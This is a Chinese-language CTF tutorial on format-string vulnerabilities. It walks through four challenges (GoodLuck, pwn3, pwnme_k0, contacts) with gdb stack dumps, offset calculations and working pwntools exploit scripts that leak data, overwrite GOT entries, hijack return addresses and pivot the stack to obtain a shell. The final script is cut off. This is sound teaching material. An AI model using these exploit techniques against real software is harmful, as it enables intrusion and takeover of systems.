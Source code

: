..

格式化字符串漏洞例子
====================

下面会介绍一些CTF中的格式化漏洞的题目。也都是格式化字符串常见的利用。

64位程序格式化字符串漏洞
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

原理
----

其实64位的偏移计算和32位类似，都是算对应的参数。只不过64位函数的前6个参数是存储在相应的寄存器中的。那么在格式化字符串漏洞中呢？虽然我们并没有向相应寄存器中放入数据，但是程序依旧会按照格式化字符串的相应格式对其进行解析。

例子
----

这里，我们以2017年的UIUCTF中pwn200
GoodLuck为例进行介绍。这里由于只有本地环境，所以我在本地设置了一个flag.txt文件。

确定保护
~~~~~~~~

.. code:: shell

    ➜  2017-UIUCTF-pwn200-GoodLuck git:(master) ✗ checksec goodluck
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出程序开启了NX保护以及部分RELRO保护。

分析程序
~~~~~~~~

可以发现，程序的漏洞很明显

.. code:: c

      for ( j = 0; j <= 21; ++j )
      {
        v5 = format[j];
        if ( !v5 || v11[j] != v5 )
        {
          puts("You answered:");
          printf(format);
          puts("\nBut that was totally wrong lol get rekt");
          fflush(_bss_start);
          result = 0;
          goto LABEL_11;
        }
      }

确定偏移
~~~~~~~~

我们在printf处下偏移如下,这里只关注代码部分与栈部分。

.. code:: shell

    gef➤  b printf
    Breakpoint 1 at 0x400640
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
    what's the flag
    123456
    You answered:

    Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
    28  printf.c: 没有那个文件或目录.

    ─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
       0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
       0x7ffff7a627fe <fprintf+142>    ret    
       0x7ffff7a627ff                  nop    
     → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
       0x7ffff7a62807 <printf+7>       test   al, al
       0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
       0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
    ───────────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffdb08', 'l8']
    8
    0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8    ← $rsp
    0x00007fffffffdb10│+0x08: 0x0000000031000001
    0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
    0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
    0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
    0x00007fffffffdb30│+0x28: "flag{11111111111111111"
    0x00007fffffffdb38│+0x30: "11111111111111"
    0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
    ──────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
    [#1] 0x400890 → Name: main()
    ─────────────────────────────────────────────────────────────────────────────────────────────────

可以看到flag对应的栈上的偏移为5，除去对应的第一行为返回地址外，其偏移为4。此外，由于这是一个64位程序，所以前6个参数存在在对应的寄存器中，fmt字符串存储在RDI寄存器中，所以fmt字符串对应的地址的偏移为10。而fmt字符串中%order$s对应的order为fmt字符串后面的参数的顺序，所以我们只需要输入%9$s即可得到flag的内容。当然，我们还有更简单的方法利用 https://github.com/scwuaptx/Pwngdb 中的fmtarg来判断某个参数的偏移。

.. code:: shell

    gef➤  fmtarg 0x00007fffffffdb28
    The index of format argument : 10

需要注意的是我们必须break在printf处。

利用程序
~~~~~~~~

.. code:: python

    from pwn import *
    from LibcSearcher import *
    goodluck = ELF('./goodluck')
    if args['REMOTE']:
        sh = remote('pwn.sniperoj.cn', 30017)
    else:
        sh = process('./goodluck')
    payload = "%9$s"
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

hijack GOT
^^^^^^^^^^^^^^^^^^^^

原理
----

在目前的C程序中，libc中的函数都是通过GOT表来跳转的。此外，在
没有开启RELRO保护的前提下，每个libc的函数对应的GOT表项是可以被修改的。因此，我们可以修改某个libc函数的GOT表内容为另一个libc函数的地址来实现对程序的控制。比如说我们可以修改printf的got表项内容为system函数的地址。从而，程序在执行printf的时候实际执行的是system函数。

假设我们将函数A的地址覆盖为函数B的地址，那么这一攻击技巧可以分为以下步骤

-  确定函数A的GOT表地址。

-  这一步我们利用的函数A一般在程序中已有，所以可以采用简单的寻找地址的方法来找。

-  确定函数B的内存地址

-  这一步通常来说，需要我们自己想办法来泄露对应函数B的地址。

-  将函数B的内存地址写入到函数A的GOT表地址处。

-  这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种

   -  写入函数：write函数。
   -  ROP

   .. code:: text

       pop eax; ret;           # printf@got -> eax
       pop ebx; ret;           # (addr_offset = system_addr - printf_addr) -> ebx
       add [eax] ebx; ret;     # [printf@got] = [printf@got] + addr_offset

   -  格式化字符串任意地址写

例子
----

这里我们以2016 CCTF中的pwn3为例进行介绍。

确定保护
~~~~~~~~

如下

.. code:: shell

    ➜  2016-CCTF-pwn3 git:(master) ✗ checksec pwn3 
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序主要开启了NX保护。我们一般默认远程都是开启ASLR保护的。

分析程序
~~~~~~~~

首先分析程序，可以发现程序似乎主要实现了一个需密码登录的ftp，具有get，put，dir三个基本功能。大概浏览一下每个功能的代码，发现在get功能中存在格式化字符串漏洞

.. code:: c

    int get_file()
    {
      char dest; // [sp+1Ch] [bp-FCh]@5
      char s1; // [sp+E4h] [bp-34h]@1
      char *i; // [sp+10Ch] [bp-Ch]@3

      printf("enter the file name you want to get:");
      __isoc99_scanf("%40s", &s1);
      if ( !strncmp(&s1, "flag", 4u) )
        puts("too young, too simple");
      for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
      {
        if ( !strcmp(i, &s1) )
        {
          strcpy(&dest, i + 0x28);
          return printf(&dest);
        }
      }
      return printf(&dest);
    }

漏洞利用思路
~~~~~~~~~~~~

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

-  绕过密码
-  确定格式化字符串参数偏移
-  利用put@got获取put函数地址，进而获取对应的libc.so的版本，进而获取对应system函数地址。
-  修改puts@got的内容为system的地址。
-  当程序再次执行puts函数的时候，其实执行的是system函数。

漏洞利用程序
~~~~~~~~~~~~

如下

.. code:: python

    from pwn import *
    from LibcSearcher import LibcSearcher
    #context.log_level = 'debug'
    pwn3 = ELF('./pwn3')
    if args['REMOTE']:
        sh = remote('111', 111)
    else:
        sh = process('./pwn3')


    def get(name):
        sh.sendline('get')
        sh.recvuntil('enter the file name you want to get:')
        sh.sendline(name)
        data = sh.recv()
        return data


    def put(name, content):
        sh.sendline('put')
        sh.recvuntil('please enter the name of the file you want to upload:')
        sh.sendline(name)
        sh.recvuntil('then, enter the content:')
        sh.sendline(content)


    def show_dir():
        sh.sendline('dir')


    tmp = 'sysbdmin'
    name = ""
    for i in tmp:
        name += chr(ord(i) - 1)


    # password
    def password():
        sh.recvuntil('Name (ftp.hacker.server:Rainism):')
        sh.sendline(name)


    #password
    password()
    # get the addr of puts
    puts_got = pwn3.got['puts']
    log.success('puts got : ' + hex(puts_got))
    put('1111', '%8$s' + p32(puts_got))
    puts_addr = u32(get('1111')[:4])

    # get addr of system
    libc = LibcSearcher("puts", puts_addr)
    system_offset = libc.dump('system')
    puts_offset = libc.dump('puts')
    system_addr = puts_addr - puts_offset + system_offset
    log.success('system addr : ' + hex(system_addr))

    # modify puts@got, point to system_addr
    payload = fmtstr_payload(7, {puts_got: system_addr})
    put('/bin/sh;', payload)
    sh.recvuntil('ftp>')
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    #gdb.attach(sh)
    sh.sendline('/bin/sh;')

    # system('/bin/sh')
    show_dir()
    sh.interactive()

注意

-  我在获取puts函数地址时使用的偏移是8，这是因为我希望我输出的前4个字节就是puts函数的地址。其实格式化字符串的首地址的偏移是7。
-  这里我利用了pwntools中的fmtstr_payload函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里fmtstr_payload(7,
   {puts_got:
   system_addr})的意思就是，我的格式化字符串的偏移是7，我希望在puts_got地址处写入system_addr地址。默认情况下是按照字节来写的。

hijack retaddr
^^^^^^^^^^^^^^^^^^^^

原理
----

很容易理解，我们要利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址。

例子
----

这里我们以三个白帽-pwnme_k0为例进行分析。

确定保护
~~~~~~~~

.. code:: shell

    ➜  三个白帽-pwnme_k0 git:(master) ✗ checksec pwnme_k0
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出程序主要开启了NX保护以及Full
RELRO保护。这我们就没有办法修改程序的got表了。

分析程序
~~~~~~~~

简单分析一下，就知道程序似乎主要实现了一个类似账户注册之类的功能，主要有修改查看功能，然后发现在查看功能中发现了格式化字符串漏洞

.. code:: c

    int __usercall sub_400B07@<eax>(char format@<dil>, char formata, __int64 a3, char a4)
    {
      write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
      printf(&formata, "Welc0me to sangebaimao!\n");
      return printf(&a4 + 4);
    }

其输出的内容为&a4+4。我们回溯一下，发现我们读入的passwrod内容也是

.. code:: c

        v6 = read(0, (char *)&a4 + 4, 0x14uLL);

当然我们还可以发现我们读入的username在距离的password20个字节。

.. code:: c

      puts("Input your username(max lenth:20): ");
      fflush(stdout);
      v8 = read(0, &bufa, 0x14uLL);
      if ( v8 && v8 <= 0x14u )
      {
        puts("Input your password(max lenth:20): ");
        fflush(stdout);
        v6 = read(0, (char *)&a4 + 4, 0x14uLL);
        fflush(stdout);
        *(_QWORD *)buf = bufa;
        *(_QWORD *)(buf + 8) = a3;
        *(_QWORD *)(buf + 16) = a4;

好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

利用思路
~~~~~~~~

我们最终的目的是希望可以获得系统的shell，可以发现在给定的文件中，在00000000004008A6地址处有一个直接调用system('bin/sh')的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于rbp的地址并不会改变，所以我们可以使用相对地址来计算。利用思路如下

-  确定偏移
-  获取函数的rbp与返回地址
-  根据相对偏移获取存储返回地址的地址
-  将执行system函数调用的地址写入到存储返回地址的地址。

确定偏移
~~~~~~~~

首先，我们先来确定一下偏移。输入用户名aaaaaaaa，密码随便输入，断点下在输出密码的那个printf(&a4
+ 4)函数处

.. code:: text

    Register Account first!
    Input your username(max lenth:20): 
    aaaaaaaa
    Input your password(max lenth:20): 
    %p%p%p%p%p%p%p%p%p%p
    Register Success!!
    1.Sh0w Account Infomation!
    2.Ed1t Account Inf0mation!
    3.QUit sangebaimao:(
    >error options
    1.Sh0w Account Infomation!
    2.Ed1t Account Inf0mation!
    3.QUit sangebaimao:(
    >1
    ...

此时栈的情况为

.. code:: text

    ─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
         0x400b1a                  call   0x400758
         0x400b1f                  lea    rdi, [rbp+0x10]
         0x400b23                  mov    eax, 0x0
     →   0x400b28                  call   0x400770
       ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
            0x400776                  xchg   ax, ax
            0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
            0x40077e                  xchg   ax, ax
    ────────────────────────────────────────────────────────────────────[ stack ]────
    0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
    0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
    0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
    0x00007fffffffdb58│+0x18: 0x000000000000000a
    0x00007fffffffdb60│+0x20: 0x7025702500000000
    0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
    0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
    0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为5+3=8。

修改地址
~~~~~~~~

我们再仔细观察下断点处栈的信息

.. code:: text

    0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
    0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
    0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
    0x00007fffffffdb58│+0x18: 0x000000000000000a
    0x00007fffffffdb60│+0x20: 0x7025702500000000
    0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
    0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
    0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用showaccounth函数时执行push
rip所存储的值)，在格式化字符串中的偏移为7。

与此同时栈上，第一个元素存储的也就是上一个函数的rbp。所以我们可以得到偏移0x00007fffffffdb80-0x00007fffffffdb48=0x38。继而如果我们知道了rbp的数值，就知道了函数返回地址的地址。

0x0000000000400d74与0x00000000004008A6只有低2字节不同，所以我们可以只修改0x00007fffffffdb48开始的2个字节。

利用程序
~~~~~~~~

这里使用data[1:]的原因是当我们split的时候由于起始的是0x，所以会产生‘’字符串，需要跳过。

.. code:: python

    from pwn import *
    from LibcSearcher import *
    pwnme = ELF('./pwnme_k0')
    if args['REMOTE']:
        sh = remote(11, 11)
    else:
        sh = process('./pwnme_k0')
    sh.recvuntil(':\n')
    sh.sendline('a' * 8)
    sh.recvuntil(':\n')
    sh.sendline('%p' * 9)
    sh.recvuntil('>')
    sh.sendline('1')
    sh.recvuntil('a' * 8 + '\n')
    data = sh.recvuntil('1.', drop=True).split('0x')
    print data
    data = data[1:]
    rbp = int(data[5], 16)
    ret_addr = rbp - 0x38
    sh.recvuntil('>')
    sh.sendline('2')
    sh.recvuntil(':\n')
    sh.sendline(p64(ret_addr))
    sh.recvuntil(':\n')
    payload = '%2214d%8$hn'
    sh.sendline(payload)
    sh.recvuntil('>')
    sh.sendline('1')
    sh.interactive()

堆上的格式化字符串漏洞
^^^^^^^^^^^^^^^^^^^^^^^

原理
----

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。

例子
----

这里我们以2015年CSAW中的contacts为例进行介绍。

确定保护
~~~~~~~~

.. code:: shell

    ➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序不仅开启了NX保护还开启了Canary。

分析程序
~~~~~~~~

简单看看程序，发现程序正如名字所描述的，是一个联系人相关的程序，可以实现创建，修改，删除，打印联系人的信息。而再仔细阅读，可以发现在输入联系人信息的时候存在格式化字符串漏洞。

.. code:: c

    int __cdecl PrintInfo(int a1, int a2, int a3, char *format)
    {
      printf("\tName: %s\n", a1);
      printf("\tLength %u\n", a2);
      printf("\tPhone #: %s\n", a3);
      printf("\tDescription: ");
      return printf(format);
    }

仔细看看，可以发现这个format其实是指向堆中的。

利用思路
~~~~~~~~

我们的基本目的是获取系统的shell，从而拿到flag。其实既然有格式化字符串漏洞，我们应该是可以通过劫持got表或者控制程序返回地址来控制程序流程。但是这里却不怎么可行。原因分别如下

-  之所以不能够劫持got来控制程序流程，是因为我们发现对于程序中常见的可以对于我们给定的字符串输出的只有printf函数，我们只有选择它才可以构造/bin/sh让它执行system('/bin/sh')，但是printf函数在其他地方也均有用到，这样做会使得程序直接崩溃。
-  其次，不能够直接控制程序返回地址来控制程序流程的是因为我们并没有一块可以直接执行的地址来存储我们的内容，同时利用格式化字符串来往栈上直接写入system_addr+'bbbb'+addr
   of '/bin/sh‘似乎并不现实。

那么我们可以怎么做呢？我们还有之前在栈溢出讲的技巧，stack
privot。而这里，我们可以控制的恰好是堆内存，所以我们可以把栈迁移到堆上去。这里我们通过leave指令来进行栈迁移，所以在迁移之前我们需要修改程序保存ebp的值为我们想要的值。
只有这样在执行leave指令的时候，esp才会成为我们想要的值。同时，因为我们是使用格式化字符串来进行修改，所以我们得知道保存ebp的地址为多少，而这时PrintInfo函数中存储ebp的地址每次都在变化，而我们也无法通过其他方法得知。但是， **程序中压入栈中的ebp值其实保存的是上一个函数的保存ebp值的地址** ，所以我们可以修改其 **上层函数的保存的ebp的值，即上上层函数（即main函数）的ebp数值** 。这样当上层程序返回时，即实现了将栈迁移到堆的操作。

基本思路如下

-  首先获取system函数的地址
   -  通过泄露某个libc函数的地址根据libc database确定。
-  构造基本联系人描述为system_addr+'bbbb'+binsh_addr
-  修改上层函数保存的ebp(即上上层函数的ebp)为 **存储system_addr的地址-4** 。
-  当主程序返回时，会有如下操作
   -  move esp,ebp，将esp指向system_addr的地址-4
   -  pop ebp， 将esp指向system_addr
   -  ret，将eip指向system_addr，从而获取shell。

获取相关地址与偏移
~~~~~~~~~~~~~~~~~~

这里我们主要是获取system函数地址、/bin/sh地址，栈上存储联系人描述的地址，以及PrintInfo函数的地址。

首先，我们根据栈上存储的libc_start_main_ret地址(该地址是当main函数执行返回时会运行的函数)来获取system函数地址、/bin/sh地址。我们构造相应的联系人，然后选择输出联系人信息，并将断点下在printf处，并且一直运行到格式化字符串漏洞的printf函数处，如下

.. code:: shell

     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ───────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    0xffffcd00│+0x04: 0x0804c420  →  "1234567"
    0xffffcd04│+0x08: 0x0804c410  →  "11111"
    0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
    0xffffcd0c│+0x10: 0x00000000
    0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
    0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
    ──────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0xf7e44670 → Name: __printf(format=0x804c420 "1234567\n")
    [#1] 0x8048c27 → leave 
    [#2] 0x8048c99 → add DWORD PTR [ebp-0xc], 0x1
    [#3] 0x80487a2 → jmp 0x80487b3
    [#4] 0xf7e13637 → Name: __libc_start_main(main=0x80486bd, argc=0x1, argv=0xffffce14, init=0x8048df0, fini=0x8048e60, rtld_fini=0xf7fe88a0 <_dl_fini>, stack_end=0xffffce0c)
    [#5] 0x80485e1 → hlt 
    ────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  dereference $esp 140
    ['$esp', '140']
    1
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    gef➤  dereference $esp l140
    ['$esp', 'l140']
    140
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    0xffffcd00│+0x04: 0x0804c420  →  "1234567"
    0xffffcd04│+0x08: 0x0804c410  →  "11111"
    0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
    0xffffcd0c│+0x10: 0x00000000
    0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
    0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
    0xffffcd1c│+0x20: 0x08048c99  →   add DWORD PTR [ebp-0xc], 0x1
    0xffffcd20│+0x24: 0x0804b0a8  →  "11111"
    0xffffcd24│+0x28: 0x00002b67 ("g+"?)
    0xffffcd28│+0x2c: 0x0804c410  →  "11111"
    0xffffcd2c│+0x30: 0x0804c420  →  "1234567"
    0xffffcd30│+0x34: 0xf7fadd60  →  0xfbad2887
    0xffffcd34│+0x38: 0x08048ed6  →  0x25007325 ("%s"?)
    0xffffcd38│+0x3c: 0x0804b0a0  →  0x0804c420  →  "1234567"
    0xffffcd3c│+0x40: 0x00000000
    0xffffcd40│+0x44: 0xf7fad000  →  0x001b1db0
    0xffffcd44│+0x48: 0x00000000
    0xffffcd48│+0x4c: 0xffffcd78  →  0x00000000
    0xffffcd4c│+0x50: 0x080487a2  →   jmp 0x80487b3
    0xffffcd50│+0x54: 0x0804b0a0  →  0x0804c420  →  "1234567"
    0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
    0xffffcd58│+0x5c: 0x00000050 ("P"?)
    0xffffcd5c│+0x60: 0x00000000
    0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
    0xffffcd64│+0x68: 0x08048288  →  0x00000082
    0xffffcd68│+0x6c: 0x00000004
    0xffffcd6c│+0x70: 0x0000000a
    0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
    0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
    0xffffcd78│+0x7c: 0x00000000
    0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
    0xffffcd80│+0x84: 0x00000001
    0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
    0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"

我们可以通过简单的判断可以得到

::

    0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10

存储的就是main相应的地址，同时利用fmtarg来获取对应的偏移，可以看出其偏移为32，那么相对于格式化字符串的偏移为31。

.. code:: shell

    gef➤  fmtarg 0xffffcd7c
    The index of format argument : 32

这样我们便可以得到对应的地址了。进而可以根据libc-database来获取对应的libc，继而获取system函数地址与/bin/sh函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址0xffffcd2c相对于格式化字符串的偏移为6，得到这个是为了构造我们的联系人。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为11，这样我们可以直接修改上层函数存储的ebp的值。

.. code:: shell

    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp

构造联系人获取堆地址
~~~~~~~~~~~~~~~~~~~~

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的ebp地址。

.. code:: text

    [system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]

来获取对应的相应的地址。后面的bbbb是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的ebp地址并不会因为我们再次调用而改变。

修改ebp
~~~~~~~

由于我们需要执行move指令将ebp赋给esp，并还需要执行pop
ebp才会执行ret指令，所以我们需要将ebp修改为存储system地址-4的值。这样pop
ebp之后，esp恰好指向保存system的地址，这时在执行ret指令即可执行system函数。

上面已经得知了我们希望修改的ebp值，而也知道了对应的偏移为11，所以我们可以构造如下的payload来进行修改相应的值。

::

    part1 = (heap_addr - 4) / 2
    part2 = heap_addr - 4 - part1
    payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

获取shell
~~~~~~~~~

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入5，退出程序即会执行ret指令，就可以获取shell。

利用程序
~~~~~~~~

.. code:: python

    from pwn import *
    from LibcSearcher import *
    contact = ELF('./contacts')
    #context.log_level = 'debug'
    if args['REMOTE']:
        sh = remote(11, 111)
    else:
        sh = process('./contacts')


    def createcontact(name, phone, descrip_len, description):
        sh.recvuntil('>>> ')
        sh.sendline('1')
        sh.recvuntil('Contact info: \n')
        sh.recvuntil('Name: ')
        sh.sendline(name)
        sh.recvuntil('You have 10 numbers\n')
        sh.sendline(phone)
        sh.recvuntil('Length of description: ')
        sh.sendline(descrip_len)
        sh.recvuntil('description:\n\t\t')
        sh.sendline(description)


    def printcontact():
        sh.recvuntil('>>> ')
        sh.sendline('4')
        sh.recvuntil('Contacts:')
        sh.recvuntil('Description: ')


    # get system addr & binsh_addr
    payload = '%31$paaaa'
    createcontact('1111', '1111', '111', payload)
    printcontact()
    libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
    log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
    libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
    libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    log.success('get system addr: ' + hex(system_addr))
    log.success('get binsh addr: ' + hex(binsh_addr))
    #gdb.attach(sh)

    # get heap addr and ebp addr
    payload = flat([
        system_addr,
        'bbbb',
        binsh_addr,
        '%6$p%11$pcccc',
    ])
    createcontact('2222', '2222', '222', payload)
    printcontact()
    sh.recvuntil('Description: ')
    data = sh.recvuntil('cccc', drop=True)
    data = data.split('0x')
    print data
    ebp_addr = int(data[1], 16)
    heap_addr = int(data[2], 16)

    # modify ebp
    part1 = (heap_addr - 4) / 2
    part2 = heap_addr - 4 - part1
